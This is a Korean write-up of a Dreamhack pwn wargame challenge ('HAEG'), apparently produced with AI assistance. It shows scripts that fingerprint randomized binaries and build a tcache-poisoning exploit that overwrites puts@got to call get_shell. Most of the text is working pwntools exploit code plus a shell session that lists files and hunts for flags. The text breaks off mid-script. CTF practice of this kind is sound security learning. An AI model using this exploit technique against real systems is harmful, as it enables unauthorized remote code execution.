- `read(0, arr[idx], 0x49)` = <strong>var_378h에 반환 되었던 주소에</strong><span class="highlight-yellow"><strong> 쓰기 가능 → AAR</strong></span><span class="highlight-yellow"> (glibc 2.31, safe-linking 없음)</span>
  -  <strong>freed 청크에 쓰기 = tcache fd 덮어쓰기</strong> (glibc 2.31, safe-linking 없음)
- "GOOD~~BYE~~"

⭐ <strong>익스 경로:</strong> 

- idx=3(head)에 `p64(puts@got)` 기록 →
- malloc#1=arr[3], malloc#2=<strong>var_378h</strong>=`puts@got` → 
- 2번째 read로 `puts@got`를 `get_shell(0x40581d)`로 덮기 → 
- 직후 `puts()` 호출이 `get_shell()`→`system("/bin/sh")`. (get_shell이 인자 무시하고 `/bin/sh` 직접 세팅 → 깔끔)

<details>
<summary markdown="span">새 스테이지 실행마다 달라지는 부분이 있는지 확인</summary>
<div class="toggle-content" markdown="1">

```python
#!/usr/bin/env python3
"""Connect N times, grab the STAGE-1 binary each time, print a compact fingerprint
so we can see what the AEG generator randomizes between rounds."""
import socket, re, base64, subprocess, time, sys

HOST, PORT = "host3.dreamhack.games", 18957
SP = "/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"

def recv_until(s, token, timeout=15):
    s.settimeout(timeout); buf=b""
    end=time.time()+timeout
    while token not in buf and time.time()<end:
        try: c=s.recv(4096)
        except socket.timeout: break
        if not c: break
        buf+=c
    return buf

def grab_stage1():
    s=socket.create_connection((HOST,PORT),timeout=10)
    recv_until(s,b"ready")
    s.sendall(b"y\n")
    buf=recv_until(s,b"BINARY FIN",timeout=20)
    # keep reading a touch to catch the menu prompt
    buf+=recv_until(s,b"idx",timeout=5)
    s.close()
    txt=buf.decode("latin1")
    m=re.search(r"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN",txt,re.S)
    b64=re.sub(r"\s+","",m.group(1))
    return base64.b64decode(b64)

def objdump_main(path):
    out=subprocess.check_output(["objdump","-d","--no-show-raw-insn","-M","intel",path],text=True)
    # slice <main>: up to next blank line
    lines=out.splitlines()
    res=[]; p=False
    for ln in lines:
        if "<main>:" in ln: p=True
        if p:
            res.append(ln)
            if ln.strip()=="" and len(res)>2: break
    return "\n".join(res)

def nm_sym(path,name):
    out=subprocess.check_output(["nm",path],text=True)
    for ln in out.splitlines():
        parts=ln.split()
        if len(parts)>=3 and parts[2]==name:
            return int(parts[0],16)
    return None

def fingerprint(path):
    md=objdump_main(path)
    # array base displacement from the malloc store: mov QWORD PTR [rbp+rax*8-0xXXX],
    mbase=re.search(r"\[rbp\+rax\*8-0x([0-9a-f]+)\]",md)
    arr_base=int(mbase.group(1),16) if mbase else None
    # malloc sizes: mov edi,0xXX ; call ...<malloc@plt>
    malloc_sizes=re.findall(r"mov\s+edi,0x([0-9a-f]+)\n\s*call.*<malloc@plt>",md)
    # loop bound: cmp DWORD PTR [rbp-0xXXX],0xN  (just before jle to malloc)
    loopb=re.findall(r"cmp\s+DWORD PTR \[rbp-0x[0-9a-f]+\],0x([0-9a-f]+)",md)
    # free targets in order: mov rax,QWORD PTR [rbp-0xXXX] ... call <free@plt>
    free_offs=re.findall(r"mov\s+rax,QWORD PTR \[rbp-0x([0-9a-f]+)\]\n\s*mov\s+rdi,rax\n\s*call.*<free@plt>",md)
    free_idx=[(arr_base-int(o,16))//8 for o in free_offs] if arr_base else []
    # read sizes: mov edx,0xXX ; ... ; call <read@plt>
    read_sizes=re.findall(r"mov\s+edx,0x([0-9a-f]+)\n\s*mov\s+rsi,rax\n\s*mov\s+edi,0x0\n\s*call.*<read@plt>",md)
    # all plt calls in order
    calls=re.findall(r"call\s+[0-9a-f]+\s+<([a-zA-Z_0-9]+)@plt>",md)
    gs=nm_sym(path,"get_shell")
    return dict(arr_base=hex(arr_base) if arr_base else None,
                malloc_sizes=malloc_sizes, loop_bound=loopb[:1],
                free_offs=free_offs, free_idx=free_idx,
                head_idx=free_idx[-1] if free_idx else None,
                read_sizes=read_sizes, calls=calls,
                get_shell=hex(gs) if gs else None)

N=int(sys.argv[1]) if len(sys.argv)>1 else 3
for i in range(N):
    try:
        elf=grab_stage1()
    except Exception as e:
        print(f"[sample {i}] grab error: {e!r}"); continue
    p=f"{SP}/s1_{i}.elf"; open(p,"wb").write(elf)
    bid=subprocess.check_output(["bash","-c",f"readelf -n {p} | grep -i build || true"],text=True).strip().split()[-1]
    fp=fingerprint(p)
    print(f"===== sample {i}  len={len(elf)}  build={bid[:16]} =====")
    for k,v in fp.items():
        print(f"   {k:12}: {v}")

```

</div>
</details>

```c
#!/usr/bin/env bash
source ~/pwn-env/bin/activate
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
timeout 120 python3 -I "$SP/haeg_fp.py" 3
echo "---- exit=$? ----"

```

<details>
<summary markdown="span">결과</summary>
<div class="toggle-content" markdown="1">

```c
wsl -d Ubuntu-24.04 -- bash "/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad/fp.sh"

===== sample 0  len=21408  build=f06b06037357d1b8 =====
   arr_base    : 0x100
   malloc_sizes: []
   loop_bound  : ['9']
   free_offs   : []
   free_idx    : []
   head_idx    : None
   read_sizes  : []
   calls       : ['puts', 'malloc', 'free', 'free', 'free', 'printf', '__isoc99_scanf', 'printf', 'read', 'puts', 'exit', 'puts', 'malloc', 'malloc', 'printf', 'read', 'puts', 'exit', 'puts', '__stack_chk_fail']
   get_shell   : 0x402832
===== sample 1  len=33696  build=60b0496d83afc525 =====
   arr_base    : 0x3d0
   malloc_sizes: []
   loop_bound  : ['9']
   free_offs   : []
   free_idx    : []
   head_idx    : None
   read_sizes  : []
   calls       : ['puts', 'malloc', 'free', 'free', 'free', 'printf', '__isoc99_scanf', 'printf', 'read', 'puts', 'exit', 'puts', 'malloc', 'malloc', 'printf', 'read', 'puts', 'exit', 'puts', '__stack_chk_fail']
   get_shell   : 0x404ee6
===== sample 2  len=33696  build=e7cecc6c3c82c8a4 =====
   arr_base    : 0x7e0
   malloc_sizes: []
   loop_bound  : ['9']
   free_offs   : []
   free_idx    : []
   head_idx    : None
   read_sizes  : []
   calls       : ['puts', 'malloc', 'free', 'free', 'free', 'printf', '__isoc99_scanf', 'printf', 'read', 'puts', 'exit', 'puts', 'malloc', 'malloc', 'printf', 'read', 'puts', 'exit', 'puts', '__stack_chk_fail']
   get_shell   : 0x405970
---- exit=0 ----
```

</div>
</details>

라운드 별 <strong>불변 (구조 동일):</strong> 호출 시퀀스가 완전히 같음 — `malloc×10 → free×3 → scanf(idx) → read(arr[idx],0x49) → malloc×2 → read(m2,0x49) → puts`. 즉 <strong>익스 로직은 매 라운드 동일</strong>.

<strong>랜덤화되는 것:</strong>

- `get_shell` 주소: `0x402832 / 0x404ee6 / 0x405970` (매번 다름) ← 그 거대한 `dummyfunc` NOP 슬레드 크기를 바꿔 함수 주소를 흔드는 것 (No-PIE인데도 주소 랜덤화)
- `arr_base` 스택 프레임 오프셋: `0x100 / 0x3d0 / 0x7e0` (매번 다름)
- 바이너리 길이도 다름 (NOP 패딩 가변)

<strong>결론:</strong> 매 라운드 ELF에서 `get_shell` 주소(심볼)·`puts@got`·프레임 오프셋만 다시 뽑으면 동일 공격

```python
#!/usr/bin/env python3
import subprocess, re, sys
from pwn import ELF
context_log = None
try:
    from pwn import context; context.log_level="error"
except Exception: pass

SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"

def norm_main(path):
    out=subprocess.check_output(["objdump","-d","--no-show-raw-insn","-M","intel",path],text=True)
    lines=out.splitlines(); res=[]; p=False
    for ln in lines:
        if "<main>:" in ln: p=True
        if p:
            if "\t" in ln:
                res.append(ln.split("\t",1)[1].strip())   # drop "ADDR:\t"
            elif ln.strip()=="" and res:
                break
    return res

def analyze(path):
    e=ELF(path, checksec=False)
    ins=norm_main(path)
    text="\n".join(ins)
    arr_base=None
    m=re.search(r"\[rbp\+rax\*8-0x([0-9a-f]+)\]",text)
    if m: arr_base=int(m.group(1),16)
    # malloc sizes (edi set then call malloc)
    msz=[]
    for i,l in enumerate(ins):
        if "<malloc@plt>" in l:
            for j in range(i-1,max(i-4,-1),-1):
                mm=re.match(r"mov\s+edi,0x([0-9a-f]+)",ins[j])
                if mm: msz.append(int(mm.group(1),16)); break
    # free indices in order
    fidx=[]
    for i,l in enumerate(ins):
        if "<free@plt>" in l:
            for j in range(i-1,max(i-5,-1),-1):
                mm=re.search(r"mov\s+rax,QWORD PTR \[rbp-0x([0-9a-f]+)\]",ins[j])
                if mm and arr_base is not None:
                    fidx.append((arr_base-int(mm.group(1),16))//8); break
    # read sizes (edx set then call read)
    rsz=[]
    for i,l in enumerate(ins):
        if "<read@plt>" in l:
            for j in range(i-1,max(i-6,-1),-1):
                mm=re.match(r"mov\s+edx,0x([0-9a-f]+)",ins[j])
                if mm: rsz.append(int(mm.group(1),16)); break
    print(f"--- {path.split('/')[-1]} ---")
    print(f"   get_shell = {hex(e.sym['get_shell'])}")
    print(f"   puts@got  = {hex(e.got['puts'])}   puts@plt={hex(e.plt['puts'])}")
    print(f"   arr_base  = {hex(arr_base) if arr_base else None}")
    print(f"   malloc_sz = {[hex(x) for x in msz]}")
    print(f"   free_idx  = {fidx}   head(last freed)={fidx[-1] if fidx else None}")
    print(f"   read_sz   = {[hex(x) for x in rsz]}")

for p in ["chall.elf","s1_0.elf","s1_1.elf","s1_2.elf"]:
    try: analyze(f"{SP}/{p}")
    except Exception as ex: print(f"{p}: ERR {ex!r}")

# dump interesting rodata strings once
print("--- rodata strings (chall.elf) ---")
out=subprocess.check_output(["bash","-c",f"strings -t x {SP}/chall.elf | grep -Ei 'ready|welcome|select|input|data|chunk|wrong|good|stage|flag|congrat|:' | head -40"],text=True)
print(out)

```

```python
#!/usr/bin/env bash
source ~/pwn-env/bin/activate
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
python3 -I "$SP/analyze2.py"
echo "---- exit=$? ----"
```

<details>
<summary markdown="span">결과</summary>
<div class="toggle-content" markdown="1">

```python
wsl -d Ubuntu-24.04 -- bash "/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad/analyze2.sh"
--- chall.elf ---
   get_shell = 0x40581d
   puts@got  = 0x408020   puts@plt=0x4010e4
   arr_base  = 0x950
   malloc_sz = ['0x50', '0x50', '0x50']
   free_idx  = [9, 4, 2]   head(last freed)=2
   read_sz   = ['0x49', '0x49']
--- s1_0.elf ---
   get_shell = 0x402832
   puts@got  = 0x405020   puts@plt=0x4010e4
   arr_base  = 0x100
   malloc_sz = ['0x50', '0x50', '0x50']
   free_idx  = [1, 5, 9]   head(last freed)=9
   read_sz   = ['0x49', '0x49']
--- s1_1.elf ---
   get_shell = 0x404ee6
   puts@got  = 0x408020   puts@plt=0x4010e4
   arr_base  = 0x3d0
   malloc_sz = ['0x50', '0x50', '0x50']
   free_idx  = [1, 3, 6]   head(last freed)=6
   read_sz   = ['0x49', '0x49']
--- s1_2.elf ---
   get_shell = 0x405970
   puts@got  = 0x408020   puts@plt=0x4010e4
   arr_base  = 0x7e0
   malloc_sz = ['0x50', '0x50', '0x50']
   free_idx  = [2, 0, 4]   head(last freed)=4
   read_sz   = ['0x49', '0x49']
--- rodata strings (chall.elf) ---
   6010 [*] welcome to HAEG!
   6028 [+] select chunk to modify(idx) : 
   604f [+] input data : 
   606b [+] input comment : 
   6080 GOOD~~BYE~~
   6147 :*3$"
   7078 GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
   795f _edata
   79e5 __data_start
   7b7d .rodata
   7bcc .data

---- exit=0 ----
```

</div>
</details>

랜덤화는 정확히 3가지뿐이고 전부 ELF에서 매 라운드 다시 뽑으면 됩니다:

| 항목 | 불변/랜덤 | 추출법 |
| --- | --- | --- |
| malloc 크기 `0x50`, read `0x49`, glibc 2.31 | 불변 | — |
| <strong>head_idx</strong> (= 마지막 free 인덱스) | 랜덤 (2,9,6,4…) | main 디스어셈 free 순서 |
| <strong>puts@got</strong> | 랜덤 (0x408020/0x405020) | `elf.got['puts']` |
| <strong>get_shell</strong> | 랜덤 | `elf.sym['get_shell']` |

프롬프트도 확정: `modify(idx) : ` → idx, `input data : ` → 1차 read(poison), `input comment : ` → 2차 read(임의쓰기), 이후 `puts("GOOD~~BYE~~")` 호출을 `get_shell`로 가로채기.

<strong>공격:</strong> `arr[head]`에 `p64(puts@got)` → malloc#2가 `puts@got` 반환 → `input comment`로 `p64(get_shell)` 써서 puts GOT 덮기 → `puts()`가 `get_shell()`→`system("/bin/sh")`.

```python
#!/usr/bin/env python3
import re, base64, sys
from pwn import remote, ELF, p64, context
context.arch="amd64"; context.log_level="info"

HOST, PORT = "host3.dreamhack.games", 18957
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"

def get_elf_from_blob(blob):
    m=re.search(rb"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN", blob, re.S)
    b64=re.sub(rb"\s+",b"",m.group(1))
    data=base64.b64decode(b64)
    path=f"{SP}/stage_live.elf"; open(path,"wb").write(data)
    return path

def parse(path):
    e=ELF(path, checksec=False)
    import subprocess
    out=subprocess.check_output(["objdump","-d","--no-show-raw-insn","-M","intel",path],text=True)
    ins=[]; p=False
    for ln in out.splitlines():
        if "<main>:" in ln: p=True
        if p:
            if "\t" in ln: ins.append(ln.split("\t",1)[1].strip())
            elif ln.strip()=="" and ins: break
    text="\n".join(ins)
    arr_base=int(re.search(r"\[rbp\+rax\*8-0x([0-9a-f]+)\]",text).group(1),16)
    fidx=[]
    for i,l in enumerate(ins):
        if "<free@plt>" in l:
            for j in range(i-1,max(i-5,-1),-1):
                mm=re.search(r"mov\s+rax,QWORD PTR \[rbp-0x([0-9a-f]+)\]",ins[j])
                if mm: fidx.append((arr_base-int(mm.group(1),16))//8); break
    head=fidx[-1]
    return e.sym['get_shell'], e.got['puts'], head, fidx

def main():
    r=remote(HOST,PORT)
    banner=r.recvuntil(b"ready (y/n) ? ", timeout=15)
    print("[banner]\n"+banner.decode("latin1"))
    r.sendline(b"y")
    blob=r.recvuntil(b"BINARY FIN", timeout=20)
    path=get_elf_from_blob(blob)
    gs, puts_got, head, fidx = parse(path)
    print(f"[*] get_shell={hex(gs)} puts_got={hex(puts_got)} free_order={fidx} head={head}")

    r.recvuntil(b"modify(idx) : ", timeout=10)
    r.sendline(str(head).encode())
    r.recvuntil(b"input data : ", timeout=10)
    r.send(p64(puts_got))                 # poison arr[head].fd -> puts_got
    r.recvuntil(b"input comment : ", timeout=10)
    r.send(p64(gs))                       # write get_shell into puts GOT
    # next puts() -> get_shell() -> system("/bin/sh")
    import time; time.sleep(0.5)
    r.sendline(b"echo ==SHELLOK==; id; pwd; ls -la; cat flag* 2>&1; cat /flag* 2>&1; find / -maxdepth 3 -name 'flag*' 2>/dev/null")
    try:
        out=r.recv(timeout=6)
        print("[shell-out]\n"+out.decode("latin1"))
    except Exception as e:
        print("[no shell output]", repr(e))
    # drain a bit more
    try:
        out2=r.recv(timeout=4)
        print("[more]\n"+out2.decode("latin1"))
    except Exception: pass
    r.close()

main()

```

```python
#!/usr/bin/env bash
source ~/pwn-env/bin/activate
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
timeout 90 python3 -I "$SP/haeg_solve.py"
echo "---- exit=$? ----"
```

<details>
<summary markdown="span">정정(got 인접 확인)</summary>
<div class="toggle-content" markdown="1">

```python
#!/usr/bin/env bash
source ~/pwn-env/bin/activate
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
for F in chall.elf stage_live.elf; do
  echo "===== $F : dynamic relocations (GOT map) ====="
  objdump -R "$SP/$F" 2>/dev/null | sort
done

===== chall.elf : dynamic relocations (GOT map) =====


/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad/chall.elf:     file format elf64-x86-64
0000000000407ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000407ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000408018 R_X86_64_JUMP_SLOT  free@GLIBC_2.2.5
0000000000408020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000408028 R_X86_64_JUMP_SLOT  __stack_chk_fail@GLIBC_2.4
0000000000408030 R_X86_64_JUMP_SLOT  system@GLIBC_2.2.5
0000000000408038 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
0000000000408040 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
0000000000408048 R_X86_64_JUMP_SLOT  malloc@GLIBC_2.2.5
0000000000408050 R_X86_64_JUMP_SLOT  setvbuf@GLIBC_2.2.5
0000000000408058 R_X86_64_JUMP_SLOT  __isoc99_scanf@GLIBC_2.7
0000000000408060 R_X86_64_JUMP_SLOT  exit@GLIBC_2.2.5
0000000000408080 R_X86_64_COPY     stdout@GLIBC_2.2.5
0000000000408090 R_X86_64_COPY     stdin@GLIBC_2.2.5
DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
===== stage_live.elf : dynamic relocations (GOT map) =====


/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad/stage_live.elf:     file format elf64-x86-64
0000000000406ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000406ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000407018 R_X86_64_JUMP_SLOT  free@GLIBC_2.2.5
0000000000407020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000407028 R_X86_64_JUMP_SLOT  __stack_chk_fail@GLIBC_2.4
0000000000407030 R_X86_64_JUMP_SLOT  system@GLIBC_2.2.5
0000000000407038 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
0000000000407040 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
0000000000407048 R_X86_64_JUMP_SLOT  malloc@GLIBC_2.2.5
0000000000407050 R_X86_64_JUMP_SLOT  setvbuf@GLIBC_2.2.5
0000000000407058 R_X86_64_JUMP_SLOT  __isoc99_scanf@GLIBC_2.7
0000000000407060 R_X86_64_JUMP_SLOT  exit@GLIBC_2.2.5
0000000000407080 R_X86_64_COPY     stdout@GLIBC_2.2.5
0000000000407090 R_X86_64_COPY     stdin@GLIBC_2.2.5
DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
```

</div>
</details>

GOT 배치 확인 (순서 고정, 베이스만 이동):

```plain text
+018 free / +020 puts / +028 __stack_chk_fail / +030 system / +038 printf / +040 read / +048 malloc ...
```

`puts@got+8 = __stack_chk_fail@got` → malloc#2가 지우는 슬롯은 `__stack_chk_fail`

<details>
<summary markdown="span">정정(시간제한 확인)</summary>
<div class="toggle-content" markdown="1">

```python
#!/usr/bin/env python3
import re, base64
from pwn import remote, ELF, p64, context
context.arch="amd64"; context.log_level="warn"
HOST, PORT = "host3.dreamhack.games", 18957
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"

def draw(r, tag, t=4.0):
    try:
        d=r.recv(timeout=t)
    except EOFError:
        print(f"[{tag}] <EOF>"); return b"", True
    except Exception as e:
        print(f"[{tag}] <ex {e!r}>"); return b"", True
    print(f"[{tag}] {d!r}")
    return d, False

r=remote(HOST,PORT)
draw(r,"banner")
r.sendline(b"y")
blob=r.recvuntil(b"BINARY FIN", timeout=20)
m=re.search(rb"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN", blob, re.S)
elf=base64.b64decode(re.sub(rb"\s+",b"",m.group(1)))
open(SP+"/probe.elf","wb").write(elf)
e=ELF(SP+"/probe.elf", checksec=False)
print(f"[*] get_shell={hex(e.sym['get_shell'])} puts_got={hex(e.got['puts'])}")
# BENIGN run: choose idx 0 (observe normal control flow + stage structure)
draw(r,"after-binary")          # should show welcome + select prompt
r.sendline(b"0")
draw(r,"after-idx")             # input data :
r.send(b"AAAABBBB")
draw(r,"after-read1")           # input comment :
r.send(b"CCCCDDDD")
draw(r,"after-read2")           # GOOD~~BYE~~ and maybe STAGE 2 ?
draw(r,"tail1", t=5)
draw(r,"tail2", t=5)
r.close()

```

```python
[banner] b'\n Ubuntu 20.0 Later\n- H o w 2 H a e g -  \n\nAre u ready (y/n) ? '
[*] get_shell=0x403b65 puts_got=0x406020
[after-binary] b'----------------\n[*] welcome to HAEG!\n[+] select chunk to modify(idx) : '
[after-idx] b'[+] input data : '
[after-read1] b''
[after-read2] b''
[tail1] b'TOoooOoo late.. (SIG: 14 Line: 150 )\n'
[tail2] <EOF>
---- exit=0 ----
```

```python
#!/usr/bin/env python3
import re, base64, time
from pwn import remote, ELF, p64, context
context.arch="amd64"; context.log_level="warn"
HOST, PORT = "host3.dreamhack.games", 18957
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
t0=time.time()
def ts(): return f"{time.time()-t0:5.2f}s"
def draw(r,tag,t=2.0):
    try: d=r.recv(timeout=t)
    except EOFError: print(f"[{ts()}][{tag}] <EOF>"); return b"",True
    except Exception as e: print(f"[{ts()}][{tag}] <{e!r}>"); return b"",True
    print(f"[{ts()}][{tag}] {d!r}"); return d,False

r=remote(HOST,PORT)
draw(r,"banner")
r.sendline(b"y")
blob=r.recvuntil(b"BINARY FIN", timeout=20)
print(f"[{ts()}] got binary")
m=re.search(rb"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN", blob, re.S)
elf=base64.b64decode(re.sub(rb"\s+",b"",m.group(1)))
open(SP+"/timed.elf","wb").write(elf)
e=ELF(SP+"/timed.elf", checksec=False)
print(f"[{ts()}] get_shell={hex(e.sym['get_shell'])} puts_got={hex(e.got['puts'])}")
r.recvuntil(b"modify(idx) : ", timeout=5); print(f"[{ts()}] got idx prompt")
r.sendline(b"0")
r.recvuntil(b"input data : ", timeout=5); print(f"[{ts()}] got data prompt")
r.send(b"AAAABBBB")
print(f"[{ts()}] sent read1; now waiting for comment prompt...")
r.recvuntil(b"comment : ", timeout=8); print(f"[{ts()}] GOT comment prompt")
r.send(b"CCCCDDDD")
print(f"[{ts()}] sent read2")
draw(r,"final",8)
draw(r,"final2",8)
r.close()

```

```python
[ 0.23s][banner] b'\n Ubuntu 20.0 Later\n- H o w 2 H a e g -  \n\nAre u ready (y/n) ? '
[ 0.48s] got binary
[ 0.58s] get_shell=0x405595 puts_got=0x408020
[ 0.58s] got idx prompt
[ 0.62s] got data prompt
[ 0.62s] sent read1; now waiting for comment prompt...
[10.96s] GOT comment prompt
[10.96s] sent read2
[12.20s][final] b'TOoooOoo late.. (SIG: 14 Line: 150 )\n'
[12.20s][final2] <EOF>
---- exit=0 ----
```

</div>
</details>

<details>
<summary markdown="span">정정(개행 추가 시 답변 오는 시간 테스트) : 해결</summary>
<div class="toggle-content" markdown="1">

```python
#!/usr/bin/env python3
import re, base64, time
from pwn import remote, ELF, p64, context
context.arch="amd64"; context.log_level="warn"
HOST, PORT = "host3.dreamhack.games", 18957
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
t0=time.time()
def ts(): return f"{time.time()-t0:5.2f}s"

r=remote(HOST,PORT)
r.recvuntil(b"ready (y/n) ? ")
r.sendline(b"y")
r.recvuntil(b"BINARY FIN", timeout=20)
print(f"[{ts()}] got binary")
r.recvuntil(b"modify(idx) : ", timeout=5)
r.sendline(b"0")
r.recvuntil(b"input data : ", timeout=5); print(f"[{ts()}] data prompt")
# VARIANT: terminate read1 with newline
r.send(b"AAAABBBB\n")
print(f"[{ts()}] sent read1 WITH newline; waiting comment...")
try:
    r.recvuntil(b"comment : ", timeout=12); print(f"[{ts()}] GOT comment prompt")
    r.send(b"CCCCDDDD\n")
    print(f"[{ts()}] sent read2")
    d=r.recv(timeout=6); print(f"[{ts()}][final] {d!r}")
except Exception as e:
    print(f"[{ts()}] ex {e!r}")
r.close()

```

```python
[ 0.46s] got binary
[ 0.50s] data prompt
[ 0.50s] sent read1 WITH newline; waiting comment...
[ 0.54s] GOT comment prompt
[ 0.54s] sent read2
[ 0.64s][final] b'GOOD~~BYE~~\n'
---- exit=0 ----
```

</div>
</details>

```python
#!/usr/bin/env python3
import re, base64, subprocess, time
from pwn import remote, ELF, p64, context
context.arch="amd64"; context.log_level="warn"
HOST, PORT = "host3.dreamhack.games", 18957
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
t0=time.time()
def ts(): return f"{time.time()-t0:5.2f}s"

def parse(path):
    e=ELF(path, checksec=False)
    out=subprocess.check_output(["objdump","-d","--no-show-raw-insn","-M","intel",path],text=True)
    ins=[]; p=False
    for ln in out.splitlines():
        if "<main>:" in ln: p=True
        if p:
            if "\t" in ln: ins.append(ln.split("\t",1)[1].strip())
            elif ln.strip()=="" and ins: break
    text="\n".join(ins)
    arr_base=int(re.search(r"\[rbp\+rax\*8-0x([0-9a-f]+)\]",text).group(1),16)
    fidx=[]
    for i,l in enumerate(ins):
        if "<free@plt>" in l:
            for j in range(i-1,max(i-5,-1),-1):
                mm=re.search(r"mov\s+rax,QWORD PTR \[rbp-0x([0-9a-f]+)\]",ins[j])
                if mm: fidx.append((arr_base-int(mm.group(1),16))//8); break
    return e.sym['get_shell'], e.got['puts'], fidx[-1], fidx

r=remote(HOST,PORT)
r.recvuntil(b"ready (y/n) ? ")
r.sendline(b"y")
blob=r.recvuntil(b"BINARY FIN", timeout=20)
m=re.search(rb"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN", blob, re.S)
elf=base64.b64decode(re.sub(rb"\s+",b"",m.group(1)))
open(SP+"/live.elf","wb").write(elf)
gs, puts_got, head, fidx = parse(SP+"/live.elf")
print(f"[{ts()}] get_shell={hex(gs)} puts_got={hex(puts_got)} free={fidx} head={head}")
assert b"\n" not in p64(gs) and b"\n" not in p64(puts_got), "payload has newline byte; reconnect needed"

r.recvuntil(b"modify(idx) : ", timeout=5)
r.sendline(str(head).encode())
r.recvuntil(b"input data : ", timeout=5)
r.send(p64(puts_got)+b"\n")            # poison arr[head].fd = puts_got
r.recvuntil(b"input comment : ", timeout=5)
r.send(p64(gs)+b"\n")                  # write get_shell into puts GOT
print(f"[{ts()}] payload sent; triggering shell...")
time.sleep(0.3)
r.sendline(b"echo ==SHELL_OK==; id; pwd; ls -la; cat flag* 2>/dev/null; cat /flag* 2>/dev/null; cat /home/*/flag* 2>/dev/null; find / -maxdepth 4 -iname '*flag*' 2>/dev/null | head")
try:
    out=r.recv(timeout=6)
    print(f"[{ts()}][shell]\n"+out.decode("latin1"))
except Exception as e:
    print(f"[{ts()}] no shell out: {e!r}")
try:
    print("[more]\n"+r.recv(timeout=4).decode("latin1"))
except Exception: pass
r.close()

```

<details>
<summary markdown="span">결과(1단계 solve)</summary>
<div class="toggle-content" markdown="1">

```python
[ 0.68s] get_shell=0x402f5f puts_got=0x406020 free=[1, 2, 8] head=8
[ 0.76s] payload sent; triggering shell...
[ 1.11s][shell]
==SHELL_OK==

[more]
uid=1001(shelluser) gid=1001(shelluser) groups=1001(shelluser)
/home/heap_aeg
total 8
drwxr-xr-x 2 root root 4096 Aug 27 10:00 .
drwxr-xr-x 4 root root 4096 Aug 27 10:00 ..
/proc/kpageflags
/tmp/subflag_tusqprw0.txt
/usr/include/linux/kernel-page-flags.h
/usr/include/linux/tty_flags.h
/usr/bin/dpkg-buildflags
/usr/share/dpkg/buildflags.mk

---- exit=0 ----
```

</div>
</details>

```python
#!/usr/bin/env python3
import re, base64, subprocess, time
from pwn import remote, ELF, p64, context
context.arch="amd64"; context.log_level="warn"
HOST, PORT = "host3.dreamhack.games", 18957
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"

def parse(path):
    e=ELF(path, checksec=False)
    out=subprocess.check_output(["objdump","-d","--no-show-raw-insn","-M","intel",path],text=True)
    ins=[]; p=False
    for ln in out.splitlines():
        if "<main>:" in ln: p=True
        if p:
            if "\t" in ln: ins.append(ln.split("\t",1)[1].strip())
            elif ln.strip()=="" and ins: break
    arr_base=int(re.search(r"\[rbp\+rax\*8-0x([0-9a-f]+)\]","\n".join(ins)).group(1),16)
    fidx=[]
    for i,l in enumerate(ins):
        if "<free@plt>" in l:
